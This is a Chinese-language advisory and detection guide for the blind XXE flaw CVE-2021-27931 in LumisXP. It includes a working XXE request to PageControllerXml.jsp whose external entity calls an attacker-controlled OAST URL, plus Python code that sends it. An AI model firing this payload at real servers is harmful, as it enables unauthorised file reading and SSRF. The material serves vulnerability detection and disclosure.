

# LumisXP <10.0.0 XXE 漏洞（CVE-2021-27931）

## 漏洞简介
LumisXP（Lumis Experience Platform）10.0.0 之前版本存在未认证的盲 XXE（XML 外部实体注入）漏洞。攻击者可通过向 PageControllerXml.jsp API 发送特制 XML 请求，利用 XXE 机制读取服务器本地文件、发起 DoS 或进一步攻击内网。

## 影响范围
- 受影响产品：LumisXP < 10.0.0
- CPE: `cpe:2.3:a:lumis:lumis_experience_platform:*:*:*:*:*:*:*:*`

## 漏洞原理
后端 XML 解析器未禁用外部实体，导致攻击者可通过构造恶意 XML 数据包，诱使服务器解析外部实体，实现文件读取、SSRF、DoS 等攻击。

## 利用方式与攻击流程
1. 攻击者构造包含外部实体的 XML 数据包。
2. 发送 POST 请求到 `/lumis/portal/controller/xml/PageControllerXml.jsp`。
3. 若服务器存在漏洞，将访问攻击者控制的 URL（如 OAST/Interactsh），可实现盲 XXE 检测。

## 探测原理与流程
### 请求包示例
```http
POST /lumis/portal/controller/xml/PageControllerXml.jsp HTTP/1.1
Host: target.com

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY xxe SYSTEM "http://attacker-oast-url">]>
<method name="addPage">
<id>&xxe;</id>
</method>
```

### 响应与判定逻辑
- 通过 OAST/Interactsh 等平台，检测是否有来自目标服务器的 HTTP 请求。
- 若有外部访问，说明存在 XXE 漏洞。

### 伪代码
```python
xml_payload = '''<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY xxe SYSTEM "http://attacker-oast-url">]>
<method name="addPage">
<id>&xxe;</id>
</method>'''
resp = requests.post('http://target.com/lumis/portal/controller/xml/PageControllerXml.jsp', data=xml_payload)
if oast_platform.has_interaction():
    print('存在 XXE 漏洞')
```

### Mermaid 流程图


## 参考链接
- [漏洞 PoC 及分析](https://github.com/sl4cky/LumisXP-XXE---POC/blob/main/poc.txt)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2021-27931)
- [ARPSyndicate cvemon](https://github.com/ARPSyndicate/cvemon)
- [ARPSyndicate kenzer-templates](https://github.com/ARPSyndicate/kenzer-templates) 